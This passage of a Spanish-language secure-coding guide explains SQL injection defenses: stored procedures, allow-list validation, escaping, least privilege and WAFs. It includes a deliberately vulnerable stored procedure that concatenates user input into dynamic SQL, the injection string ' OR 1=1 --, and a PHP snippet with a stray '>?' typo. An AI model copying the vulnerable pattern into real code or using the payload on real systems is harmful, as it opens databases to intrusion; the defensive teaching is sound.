$nombre = 'uno';
$valor = 1;
$sentencia->execute();

// insertar otra fila con diferentes valores
$nombre = 'dos';
$valor = 2;
$sentencia->execute();
?>
----
====

=== 2. Procedimientos almacenados

Los procedimientos almacenados (stored procedures) pueden ayudar a limitar el riesgo asociado a la inyección de código SQL. Estos son código guardado en la base de datos que pueden verse como funciones reutilizables y de acceso rápido por el motor de base de datos. Los procedimientos almacenados también pueden comprobar el tipo de los parámetros de entrada, impidiendo que se introduzcan datos que incumplan el tipo que el campo está diseñado para recibir.

Sin embargo, si fueron programados de forma insegura con ejecución dinámica de SQL el problema seguirá allí. Podemos ver un ejemplo de esto:

.Procedimiento almacenado vulnerable
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    DECLARE @query NVARCHAR(MAX);
    SET @query = 'SELECT * FROM products WHERE category = ''' + @category + ''' AND released = 1';
    EXECUTE sp_executesql @query;
END
----
====

Al crear una consulta internamente con un valor dinámico que afecta a la estructura, la situación es la misma que invocando SQL por programación. El procedimiento almacenado podría verse así con el parámetro como valor y no como parte de la estructura de la sentencia:

.Procedimiento almacenado 
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    SELECT * FROM products WHERE category = @category AND released = 1;
END
----
====

=== 3. Validación contra valores permitidos 

Se usa cuando no se puede usar directamente una consulta parametrizada para protegernos contra inyecciones SQL. Esto pasa en ciertos casos donde el valor que viene del usuario no puede ir como parámetro, porque no es un dato como un número o texto, sino que se trata de partes estructurales de la consulta SQL. Por ejemplo, con el nombre de una tabla o columna, o si el orden en una cláusula ORDER BY será ascendente (ASC) o descendente (DESC). En esta situación la defensa más apropiada es validar las entradas de usuario y/o rediseño de la sentencia SQL.

No se debe permitir que el usuario escriba directamente un nombre de tabla o columna que se inserte tal cual en la consulta SQL, porque eso es muy peligroso. Un ejemplo de cómo validar sería usando un switch, como este ejemplo en PHP:

.White List
[%collapsible]
====
[source,php]
----
<?php
$unsafeUserParameter = $_GET['table'] ?? '';

$tableName = '';

// Validamos con una lista de opciones válidas
switch ($unsafeUserParameter) {
    case 'clients':
        $tableName = 'table_clients';
        break;
    case 'sellers':
        $tableName = 'table_sellers';
        break;
    ...
    default:
        throw new Exception("Valor inesperado proporcionado para el nombre de la tabla.");
>?
}

$query = "SELECT * FROM $tableName";
----
====

* Si el usuario manda el valor "clients", lo convierte a "table_clients".
* Si manda "sellers", lo convierte a "table_sellers".
* Si manda cualquier otro valor, lanzas un error.

De esta forma se asegura de que el nombre que se usa en la consulta sea uno de los que se controlan y no algo malicioso.

=== 4. Escapar todas las entradas de usuario 

Esta es una forma de protegerse contra inyecciones SQL, pero no es la más recomendada. De hecho, solo se debe usar si no se puede aplicar otras defensas mejores, como las consultas parametrizadas o la validación contra valores permitidos.

Escapar significa modificar (o transformar) los datos que vienen del usuario para que no puedan romper la consulta SQL ni ejecutar código malicioso. Por ejemplo, si un usuario escribe *' OR 1=1 --*, al escapar esa entrada, la comilla *'* y otros caracteres peligrosos se transforman en versiones seguras que se interpretan como texto normal y no como parte del código SQL.

Esto se puede realizar con bibliotecas en el caso de java. En el caso de Mysql, podemos ver lo siguiente:

Existen dos modos específicos para realizar esto en Mysql:

. *ANSI_QUOTES SQL*: Escapar todos los caracteres *'*, con *''*.

. *MySQL Mode* que hace lo siguiente:
----
NUL (0x00) --> \0
BS  (0x08) --> \b
TAB (0x09) --> \t
LF  (0x0a) --> \n
CR  (0x0d) --> \r
SUB (0x1a) --> \Z
"   (0x22) --> \"
%   (0x25) --> \%
'   (0x27) --> \'
\   (0x5c) --> \\
_   (0x5f) --> \_

todos los demás caracteres no alfanuméricos con valores ASCII
inferior a 256 --> \c donde 'c' es el carácter no alfanumérico original.
----

Otra forma de hacerlo más seguro es convertir el texto del usuario a hexadecimal. Si un atacante intentara inyectar con la típica comilla simple ' y un espacio, el SQL final se vería:

[source,sql]
----
SELECT * FROM products WHERE hex_encode(category) = '2720...'
----

27 es el código ASCII (en hexadecimal) de la comilla simple y 20 el del espacio en blanco. Como la transformación solo genera dígitos numéricos y letras de la A a la F, ningún caracter especial puede causar la inyección.

=== 5. Aplicar el mínimo privilegio:

El principio de menor privilegio consiste en otorgar a la cuenta de base de datos utilizada por una aplicación solo los permisos estrictamente necesarios para su funcionamiento, evitando el uso de cuentas con privilegios elevados como administrador. Esto reduce el impacto de un posible ataque de inyección SQL, ya que limita lo que un atacante podría hacer si lograra explotar la vulnerabilidad. 

Por ejemplo, si la app solo necesita leer datos, se deben otorgar solo permisos de lectura, evitando accesos innecesarios como modificación de tablas o ejecución de comandos críticos. También se recomienda no ejecutar el servicio de base de datos con permisos elevados en el sistema operativo.

=== 6. Web Application Firewall (WAF)

Cómo ya hemos visto en anteriores pecados vuelve a aparecer el WAF, ya que es una herramienta de seguridad que filtra, monitorea y bloquea tráfico HTTP identificado como malicioso que viaja hacia una aplicación que se intenta proteger. Obviamente, no hay que confiarse y apostar solo por esto, ya que los problemas raíz de la aplicación no se solucionan con un WAF y continuamente se hacen públicas técnicas de bypass para WAF de distintas tecnologías y proveedores. 

Esto es solo una herramienta complementaria -> https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF[SQL Injection Bypassing WAF].

----
"Si piensas que la tecnología puede resolver tus problemas de seguridad, entonces no entiendes los problemas ni entiendes la tecnología"

— Bruce Schneier
----